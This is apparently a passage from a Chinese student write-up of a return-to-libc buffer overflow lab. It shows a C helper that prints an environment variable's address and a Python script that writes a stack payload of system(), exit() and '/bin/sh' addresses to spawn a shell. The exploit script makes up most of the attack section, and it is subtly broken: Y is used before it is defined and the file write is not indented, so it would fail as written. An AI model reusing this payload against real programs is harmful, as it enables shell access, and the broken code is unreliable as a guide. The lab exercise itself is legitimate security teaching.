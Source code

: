新建 MYSHELL 环境变量

<img src="https://i.loli.net/2021/07/14/Qj5dfxiZsLnaPY7.png" alt="image-20210713151640310" style="zoom:50%;" />

编写程序 `prtenv.c`

```c
#include<stdlib.h>
#include<stdio.h>

void main(){
	char* shell = getenv("MYSHELL");
	if (shell)
	printf("%x\n", (unsigned int)shell);
}
```

编译并运行。然后把上面的程序段加进 retlib.c 再次编译运行。

由于 prtenv 和 retlib 都是 6 个字母，所以会得到同样的结果，如下所示。

<img src="https://i.loli.net/2021/07/14/62c1hWbSXFRMeOo.png" alt="image-20210713152415930" style="zoom:50%;" />

# Task 3: Launching the Attack

根据前面得到的结果，将程序改为

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = Y+8
sh_addr = 0xffffd403 # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 28
system_addr = 0xf4e12420 # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = Y+4
exit_addr = 0xf7e04f80 # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
f.write(content)
```

其中，Y 的值为 `0xffffcd78`$-$`0xffffcd60`$+4$

运行，攻击成功
